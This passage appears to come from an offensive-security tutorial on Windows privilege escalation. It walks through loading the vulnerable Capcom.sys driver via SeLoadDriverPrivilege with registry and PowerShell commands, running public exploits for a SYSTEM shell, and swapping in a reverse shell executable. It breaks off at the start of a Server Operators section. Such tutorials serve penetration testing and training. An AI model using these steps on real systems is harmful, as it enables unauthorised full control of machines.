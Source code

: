 You can compile the ```.cpp``` file in Visual Studio using the following command : ```cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp```.
Now you have to upload this [Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) file and add a reference to this driver under our HKEY_CURRENT_USER tree :

```posh
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Users\Public\Downloads\Capcom.sys"
```
```posh
reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```

We can use the [DriverView.exe](https://www.nirsoft.net/utils/driverview.html) tool to see if the ```Capcom.sys``` driver is loaded or not.

```posh
PS > .\DriverView.exe /stext drivers.txt
```
```posh
PS > cat drivers.txt | Select-String -pattern Capcom
```

If the second command doesn't give you any output, it means that the driver is not loaded. You can run the program that you have compiled earlier :

```posh
EnableSeLoadDriverPrivilege.exe
```

If you run the previous commands, you will now see that the ```Capcom.sys``` driver is now loaded.
You can now use [this PoC](https://github.com/tandasat/ExploitCapcom) to exploit the ```Capcom.sys```.
 
> If you don't have a GUI connection to the windows machine, you may not be able to execute the previous exploit. You can modify it by replacing the call of the ```cmd.exe``` in the ```LaunchShell``` by a call to a reverse shell executable that you created before compiling ```ExploitCapcom.cpp```. The line should look like ```TCHAR CommandLine[] = TEXT("C:\\ProgramData\\MyReverseShell.exe");```.
{: .prompt-danger }

You can automate all this process with [this exploit](https://github.com/TarlogicSecurity/EoPLoadDriver/) and then run the ```ExploitCapcom.exe``` to pop us a ```SYSTEM``` shell :

```posh
EoPLoadDriver.exe System\CurrentControlSet\Capcom C:\Users\Public\Downloads\Capcom.sys
```

### Server Operators

Members in the ```Server Operators``` group can administer domain controllers. This group exists only on domain controllers. By default, the group has no members. Members of the ```Server Operators``` group can perform the following: sign in to a server interactively, create and delete network shared resources, start and stop services, back up and restore files, format the hard disk drive of the computer, and shut down the computer. This group cannot be renamed, deleted, or moved. Membership of this group confers the powerful ```SeBackupPrivilege``` and ```SeRestorePrivilege``` privileges and the ability to control local services.

We need to find a service that start as ```SYSTEM```. We can do it by using the ```sc qc SERVICE_NAME``` command or the [PsService](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice) as follows :

